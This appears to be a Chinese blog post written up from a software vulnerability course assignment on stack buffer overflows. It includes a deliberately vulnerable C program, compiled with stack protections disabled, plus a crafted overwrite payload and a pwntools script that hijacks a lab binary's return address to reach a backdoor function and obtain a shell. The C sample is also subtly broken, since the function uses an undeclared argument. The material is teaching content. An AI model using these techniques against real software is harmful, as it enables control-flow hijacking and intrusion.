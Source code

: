 ```yaml
---
title: 栈溢出利用
date: 2020-09-16T15:59:59.000Z
tags:
  - 随笔
coverImage: ./gdb-debug.png
---
```


# 概述

![stack-frames](./stack-frame.jpg)

软件漏洞分析课程的一次作业，利用了栈内存的缓冲区溢出，覆盖了返回地址，从而达到劫持控制流的目的。如果希望能具体了解一下图中 c 函数调用的实现，可以看一下 B 站上陈渝教授的这个视频。

<iframe style="margin-left: 50%;transform: translateX(-50%);width: 50vw;height: 40vw;" src="//player.bilibili.com/player.html?aid=77228694&bvid=BV1mJ411X73U&cid=132102373&page=5" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>

# EXP1

```c
#include <stdio.h>
#include <string.h>

void function2()
{
  printf("Executed chagned\n");
}

void function1()
{
  char buffer[5];
  strcpy(buffer,str);
}

void main(int argc, char *argv[])
{
  function1(argv[1]);
  printf("Executed normally\n");
}
```

使用`gdb`进行调试，`strcpy`函数可以被利用引起缓冲区溢出，目前的问题时需要多长的字符串，以及需要将`function1`栈帧的返回地址覆盖为什么

环境

> ubuntu 16.04
>
> gcc 5.4.0
>
> gdb 7.11.1

![arch](./ubuntu-arch.png)

关闭堆栈保护机制，使用`gcc`编译

```bash
gcc -g main.c -m32 -o main32 -z execstack -fno-stack-protector
```

![gdb](./gdb-debug.png)

可以得出`ebp`与`&buffer`相距 13 个字节，同时返回地址占用 4 个字节，`function2`的地址为`0x0804845B`。由于采用的是`小端存储`，因此需要将目标函数地址按字节倒序写入。构造出 payload`AAAAAAAAAAAAAAAAA\x5B\x84\x04\x08`

![stack-overflow-result](./stack-overlow-result.png)

成功调用了`function2`，同理地址也可以被改成其他的函数地址。

# EXP2

已知一个[二进制文件](https://raw.github.com/ChenKS12138/ChenKS12138.github.io/source-code/assets/stack-tutorial)，通过 ida 静态调试。

![ida](./stack-overflow-ida.png)

vulnerable_function 中的 buffer 只需要 1 个字节，但是第五行的 read 函数可以输入 256 个字节，这里可能存在着栈溢出。根据第三行的注释推测，`&buffer`距离`ebp`位 0x30 个字节，猜测我们需要构造的 payload 为 52 字节的字符串再加上目标函数的地址，即`backdoor`函数的地址。

```python
from pwn import *
p=process("./stack");

ret_addr=0x0804846B

payload = "a"*52+p32(ret_addr)

p.sendline(payload)
p.interactive()
p.close()
```

![EXP2-RESULT](./stack-overflow-pwn-result.png)

成功拿到 shell

